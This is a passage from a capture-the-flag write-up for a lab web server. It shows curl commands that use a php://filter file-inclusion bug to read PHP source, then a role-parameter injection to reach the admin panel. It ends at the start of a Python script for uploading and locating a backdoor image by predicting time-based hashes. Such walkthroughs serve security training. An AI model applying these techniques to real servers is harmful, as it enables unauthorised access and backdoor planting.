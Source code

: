 ![upload.php](/assets/img/posts/timing/12.png)
![admin_auth_check.php](/assets/img/posts/timing/13.png)

For "profile.php" file, it includes a javascript file "js/profile.js". That javascript file accesses an another php file "profile_update.php".

```bash
curl http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=profile.php | base64 -d
curl http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=js/profile.js | base64 -d
```

![profile.php](/assets/img/posts/timing/14.png)
![profile.js](/assets/img/posts/timing/15.png)

We take a look over "profile_update.php" file. We notice that there is a check for POST parameter value $_POST['role'] then that value is assigned to $_SESSION. Now we are sure that we need to add a role parameter and set its value to 1 to our POST request so we can access the admin panel.

```bash
curl http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=profile_update.php | base64 -d
```

![profile_update.php](/assets/img/posts/timing/16.png)
![burp](/assets/img/posts/timing/17.png)

Now we have an access to admin panel that includes an upload image feature.

![admin_panel](/assets/img/posts/timing/18.png)

Back to “upload.php” file source code. It only accepts an image file with jpg extension and upload it to directory “images/uploads/”. The name of uploaded image is about md5 hash of ‘$file_hash’ concatenated with the return value of time() function. Notice that the $file_hash is quoted by single quote not double quotes which means that $file_hash value doesn't get evaluated. Then, concatenate the hash value with underscore “_” and the file name (e.g. hashValue_fileName.jpg).

```bash
curl http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=upload.php | base64 -d
```

![upload.php](/assets/img/posts/timing/19.png)

Now we need to exploit the upload image feature. We wrote an exploit in python that automates the process of uploading and accessing our backdoor to the webserver. The exploit is divided into two files "hashes_creation.py" which is creating a pool of hashes then by trial and error trying to access the uploaded backdoor and the other file is "image_upload.py" which is responsible for uploading the backdoor image.

```python
# hashes_creation.py

import time
import hashlib
import requests
import sys
import termcolor

hashes = []


def hashes_creation():
    print(termcolor.colored("[+] Creating Hashes ...", "green"))
    for i in range(1, 9):
```
